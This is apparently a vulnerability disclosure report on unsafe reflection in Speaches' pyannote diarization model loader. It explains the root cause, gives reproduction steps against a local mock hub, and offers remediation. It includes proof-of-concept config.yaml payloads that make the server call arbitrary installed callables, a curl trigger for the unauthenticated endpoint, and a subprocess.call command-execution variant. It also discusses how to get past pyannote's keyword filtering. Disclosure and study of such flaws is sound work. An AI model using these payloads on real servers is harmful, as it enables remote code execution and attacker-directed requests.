










# Speaches (git commit 993994f) — Unsafe Reflection in the Pyannote Diarization Model Loading Component

## Summary

Speaches (speaches-ai/speaches) selects the executor for a voice model solely from the model card metadata published in the model repository, and then passes the attacker-chosen model ID unmodified to `pyannote.audio`'s `Pipeline.from_pretrained()`. pyannote resolves the `pipeline.name` field of the repository's `config.yaml` through `get_class_by_name()` — an unvalidated `getattr(import_module(...))` with no module allowlist — and invokes the resolved object with the `params` mapping expanded as keyword arguments. A model repository whose README metadata claims to be a speaker-diarization model and whose `config.yaml` contains no program files at all can therefore make the speaches server process invoke any callable already installed in the victim environment with attacker-chosen arguments. The default configuration exposes the triggering endpoint `POST /v1/audio/diarization` without authentication. As a minimal demonstration, `pipeline.name: huggingface_hub.snapshot_download` together with `params.repo_id: victim/second-stage` makes the server issue a real network request for an attacker-chosen second-stage repository; callables whose signatures tolerate keyword arguments provide direct code execution inside the server process.

## Affected Product

| Field | Value |
|---|---|
| Vendor | speaches-ai |
| Product | Speaches (OpenAI-API-compatible speech server, formerly faster-whisper-server) |
| Affected versions | git commit 993994f7984bf3fe9655b267448328cf66fccb42 (master, 2026-04-18); the vulnerable lines are still present in current master as of 2026-10-04; the app self-reports version 0.8.3 and the repository's latest release tag is v0.9.0-rc.3 |
| Component | `src/speaches/executors/pyannote_diarization.py` (`PyannoteDiarizationModelManager._load_fn`), reached from `src/speaches/routers/diarization.py` (`POST /v1/audio/diarization`) |
| Platform | OS-independent (verified on WSL2 Ubuntu 24.04 x86_64, Python 3.12.3, CPU build) |
| Vulnerability type | CWE-470: Use of Externally-Controlled Input to Select Classes or Code ("Unsafe Reflection") |

## Root Cause

**Location:** `src/speaches/executors/pyannote_diarization.py:75-85` (`PyannoteDiarizationModelManager._load_fn`)

Speaches routes a model to the pyannote diarization executor purely on the model card metadata that the repository publisher wrote (`HfModelFilter(task="speaker-diarization", tags={"pyannote"})`, evaluated in `find_executor_for_model_or_raise` at `src/speaches/routers/diarization.py:127`); there is no trust decision or signature validation anywhere on this path. The executor then hands the raw model ID to pyannote:

```python
def _load_fn(self, model_id: str) -> "Pipeline":
    from pyannote.audio import Pipeline
    import torch

    logger.info(f"Loading pyannote diarization pipeline: {model_id}")
    pipeline = Pipeline.from_pretrained(model_id)
    assert pipeline is not None, f"Failed to load pyannote diarization pipeline for model '{model_id}'"
```

The `AVAILABLE_MODELS` set in the same module constrains only the listing/download endpoints; `_load_fn` and the executor filter never enforce it, so any installed repository whose metadata passes the filter reaches the loader. Inside pyannote.audio 4.0.4 (the version pinned by the repository's own `uv.lock`), `Pipeline.from_pretrained()` fetches the repository's `config.yaml` and resolves it with no allowlist:

```python
# pyannote/audio/core/pipeline.py (pyannote-audio 4.0.4), from_pretrained()
pipeline_name = config["pipeline"]["name"]          # line 238
Klass = get_class_by_name(pipeline_name, default_module_name="pyannote.pipeline.blocks")
params = config["pipeline"].get("params", {})
params.setdefault("token", token)                    # line 243
params.setdefault("cache_dir", cache_dir)            # line 244
pipeline = Klass(**params)                           # line 245
```

`get_class_by_name` (pyannote-core `pyannote/core/utils/helper.py`) is a bare `getattr(import_module(module_name), class_name)`, so `pipeline.name` selects any importable object in the server's environment and `Klass(**params)` calls it. Note that pyannote >= 4 injects `token` and `cache_dir` keyword arguments into `params`; this filters which installed callables are invokable — strict-signature payloads such as `subprocess.call` are rejected with `TypeError: Popen.__init__() got an unexpected keyword argument 'token'` (confirmed empirically in the reproduction below), while `huggingface_hub.snapshot_download` — the callable used in the demonstrated second-stage fetch — accepts them, and any installed callable tolerant of arbitrary keyword arguments is fully attacker-controlled. On pyannote.audio 3.x-era loaders, which do not inject these keyword arguments, strict-signature payloads are reachable directly. Because the model card metadata is the only gate, the attacker does not need any code file in the repository: README.md, config.yaml and a text marker are enough.

## Proof of Concept

### Prerequisites

- A speaches server build at commit 993994f (or any build containing the code above), default configuration (no `SPEACHES_API_KEY`).
- The malicious model repository must be present in the server's local HuggingFace cache, which is how any model install path leaves it; the metadata is what makes speaches treat it as a diarization model.
- An offline HF Hub stand-in (`mock_hf_hub.py`, included) serves the fixture repositories and logs every request, so no real huggingface.co resource is contacted and the second-stage request is directly observable. Fixture repositories are generated by `make_poc.py` and contain no program files.

Reproduction environment verified in the screenshots below: Python 3.12.3, speaches 0.1.0 (pinned source of commit 993994f), pyannote-audio 4.0.4, huggingface-hub 0.35.3, torch 2.8.0+cpu.



### Steps to Reproduce

1. Generate the fixture repositories: `python make_poc.py`, then list the generated files (`find hub-root -type f`). Each first-stage repository contains only a README.md carrying the routing metadata (`pipeline_tag: speaker-diarization`, tags `pyannote`, `speaker-diarization`) and a config.yaml; the second-stage repository contains a text marker.



2. Inspect the only attacker-controlled payload — the malicious fixture resolves `pipeline.name` to the installed `huggingface_hub.snapshot_download` with `params.repo_id: victim/second-stage`; the negative control is byte-for-byte the same shape with only `pipeline.name` changed to `types.SimpleNamespace`, an installed class with no network behavior:



3. Start the offline HF Hub stand-in (`python mock_hf_hub.py --root hub-root --port 8888 > hub.log 2>&1 &`) and install the fixture models into the local HF cache exactly the way any install path does: `HF_ENDPOINT=http://127.0.0.1:8888 python -c "from huggingface_hub import snapshot_download; snapshot_download('attacker/poc-diarization')"`.





4. Start the speaches server against the same endpoint from the source root: `HF_ENDPOINT=http://127.0.0.1:8888 python -m uvicorn speaches.main:create_app --factory --host 127.0.0.1 --port 8000 > server.log 2>&1 &`.



5. Trigger the diarization route with the malicious model ID (unauthenticated): `curl -s -X POST -F model=attacker/poc-diarization -F file=@audio.wav http://127.0.0.1:8000/v1/audio/diarization`. The server selects the diarization executor based on the model card metadata and starts loading the model — the server log shows `speaches.executors.pyannote_diarization:_load_fn:79:Loading pyannote diarization pipeline: attacker/poc-diarization`:



6. While resolving `pipeline.name`, the server process calls `huggingface_hub.snapshot_download(repo_id="victim/second-stage")` — the mock hub log shows the server-issued second-stage requests (repo info, HEAD and GET of `stage2-note.txt`) at the same second as the loading line:



7. Negative control: trigger the identical-shape fixture with `curl -s -X POST -F model=attacker/poc-diarization-ctrl -F file=@audio.wav ...`. The response is the same HTTP 500 (the returned `SimpleNamespace` object is not callable when the route invokes it), but the second-stage request count in the hub log stays at 3 — no request for `victim/second-stage` is issued, isolating the effect to the object selected by `config.yaml` rather than to the download or parse step itself:



8. Direct-RCE variant on this stack: the fixture `attacker/poc-diarization-rce` resolves `pipeline.name` to `subprocess.call` with `params.args: ["touch", "/tmp/speaches-pwned-rce"]`. On the pinned pyannote.audio 4.0.4 the invocation happens but is rejected because of the injected `token` keyword — the server log records `TypeError: Popen.__init__() got an unexpected keyword argument 'token'` and no marker file is created, confirming both that the config-driven callable invocation fires and that pyannote >= 4's keyword filtering is the only thing standing between this primitive and direct command execution on this stack (a filter absent in pyannote 3.x-era loaders and bypassed by any kwargs-tolerant callable):



### Expected vs Actual

- Expected: a repository that merely claims via its model card metadata to be a diarization model must not be able to make the server invoke installed Python objects with attacker-chosen arguments.
- Actual: the server selects the diarization executor based on that metadata, then resolves `pipeline.name` into any installed callable and invokes it with the expanded `params`; with the fixture above the server process issues a real network request for `victim/second-stage`.

### Sanitized PoC input

```yaml
# attacker/poc-diarization/config.yaml (the only attacker-controlled payload; no code files exist in the repository)
pipeline:
  name: huggingface_hub.snapshot_download
  params:
    repo_id: victim/second-stage
```

```yaml
# attacker/poc-diarization-ctrl/config.yaml (negative control, only pipeline.name differs)
pipeline:
  name: types.SimpleNamespace
  params:
    repo_id: victim/second-stage
```

## Impact

- Confidentiality: High — arbitrary code execution in the server process exposes every resource that process can read, including cached model credentials and any configured storage.
- Integrity: High — the primitive gives full control over arguments of installed APIs (arbitrary outbound requests, cache writes, and code execution for kwargs-tolerant callables).
- Availability: High — the invoked object can crash or monopolize the server process.
- Scope: remote code execution on the speaches host with the privileges of the server process; the demonstrated second-stage fetch already yields attacker-chosen server-side network requests, and on pyannote.audio 3.x-era loaders (which do not inject `token`/`cache_dir`) strict-signature payloads such as `subprocess.call` are reachable directly.

## Remediation

1. Enforce `AVAILABLE_MODELS` (or another explicit allowlist) inside `PyannoteDiarizationModelManager._load_fn` before calling `Pipeline.from_pretrained()`, so the load path can no longer be reached with an arbitrary model ID.
2. Do not rely on pyannote's config-driven reflection for untrusted repositories: either instantiate the diarization pipeline class directly (e.g. `pyannote.audio.pipelines.speaker_diarization.SpeakerDiarization`) after downloading the repository, or validate `config.yaml`'s `pipeline.name` against a strict allowlist of known pyannote pipeline classes before loading.
3. Consider requiring authentication on the diarization endpoint by default, consistent with the destructive potential of model-loading paths.

## References

- Source repository: https://github.com/speaches-ai/speaches
- Vulnerable commit: https://github.com/speaches-ai/speaches/tree/993994f7984bf3fe9655b267448328cf66fccb42
- Upstream report: [pending publication]
- CWE-470: https://cwe.mitre.org/data/definitions/470.html
- Vendor advisory: [none]
